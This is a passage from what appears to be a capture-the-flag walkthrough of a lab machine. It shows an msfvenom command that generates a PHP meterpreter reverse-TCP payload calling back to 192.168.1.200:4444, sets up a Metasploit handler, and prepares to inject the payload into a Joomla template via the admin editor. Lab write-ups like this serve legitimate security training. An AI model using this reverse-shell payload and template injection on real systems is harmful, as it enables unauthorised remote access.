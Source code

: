 We can now modify a template adding a payload that we are going to generate with **msfvenom**

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f raw -o test.php
```

![Alt text](./HARRY_POTTER_NAGINI/img/msfVenom.PNG?raw=true "MSFVENOM")

Let's start **msfconsole** using **explit/multi/handler** and setting up the payload as **php/meterpreter/reverse_tcp**

![Alt text](./HARRY_POTTER_NAGINI/img/msf.PNG?raw=true "MSFCONSOLE")

Next step will be to copy the content of test.php into our joomla template, so let's see what is inside our payload:

```bash
cat test.php
```

![Alt text](./HARRY_POTTER_NAGINI/img/payload.PNG?raw=true "Payload")

Now we move into the Admin console and we navigate till the Template editor.
